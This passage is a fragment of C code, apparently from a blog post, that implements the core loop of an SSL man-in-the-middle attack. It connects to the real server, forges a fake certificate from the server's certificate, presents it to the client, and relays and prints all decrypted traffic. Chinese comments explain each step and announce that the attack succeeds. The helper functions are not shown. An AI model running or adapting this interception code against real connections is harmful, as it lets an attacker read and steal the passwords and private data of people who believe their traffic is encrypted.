         if (!fork()) {
            X509 *fake_x509;
            SSL *ssl_to_client, *ssl_to_server;
            // 通过获得的原始目的地址，连接真正的服务器，获得一个和服务器连接的socket
            int socket_to_server = get_socket_to_server(&original_server_addr);
            // 通过和服务器连接的socket建立一个和服务器的SSL连接
            ssl_to_server = SSL_to_server_init(socket_to_server);
            if (SSL_connect(ssl_to_server) < 0)
                SSL_Error("Fail to connect server with ssl!");
            printf("%d, SSL to server\n", sum);
            // 从服务器获得证书，并通过这个证书伪造一个假的证书
            fake_x509 = create_fake_certificate(ssl_to_server, key);
            // 使用假的证书和我们自己的密钥，和客户端建立一个SSL连接。至此，SSL中间人攻击成功
            ssl_to_client = SSL_to_client_init(socket_to_client, fake_x509, key);
            if (SSL_accept(ssl_to_client) <= 0)
                SSL_Error("Fail to accept client with ssl!");
            printf("%d, SSL to client\n", sum);
            // 在服务器SSL连接和客户端SSL连接之间转移数据，并输出服务器和客户端之间通信的数据
            if (transfer(ssl_to_client, ssl_to_server) < 0) {
                printf("%d, connection shutdown\n", sum);
                SSL_terminal(ssl_to_client);
                SSL_terminal(ssl_to_server);
                shutdown(socket_to_server, SHUT_RDWR);
                shutdown(socket_to_client, SHUT_RDWR);
                X509_free(fake_x509);
            }
        } else {
            ++sum;
        }
    }
    EVP_PKEY_free(key);
    return 0;
}
{% endhighlight %}
